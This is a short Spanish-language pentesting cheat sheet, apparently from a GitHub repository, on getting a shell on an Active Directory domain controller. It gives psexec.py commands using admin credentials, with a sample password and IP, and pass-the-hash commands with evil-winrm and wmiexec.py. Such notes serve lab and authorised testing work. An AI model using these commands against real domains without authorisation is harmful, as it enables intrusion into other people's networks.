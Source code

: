 # Requisitos
Para ganar acceso al `Domain Controller` debemos disponer de credenciales válidas de un `Administrador del dominio`.

# Realizar Autenticación
Una forma de hacerlo es mediante `psexec`, podemos saber si podemos autenticarnos si el crackmapexec nos da un `Pwn3d!` para ese equipo.
```
psexec.py <dominio>/<usuario>:<contraseña>@<ip_DC> cmd.exe
```
Ejemplo:
```
psexec.py wizzz.local/Administrador:Passw0rd@192.168.45.130 cmd.exe
```

# Pass The Hash
También podemos ganar acceso si hemos conseguido su `hash` mediante `evil-winrm`
```
evil-winrm -i <ip-DC> -u '<Administrator>' -H '<hash>'
```
Se puede hacer también con otras herramientas como `wmiexec`
```
wmiexec.py <dominio>/<usuario>@<ip> -hashes <hash_ntds>
```

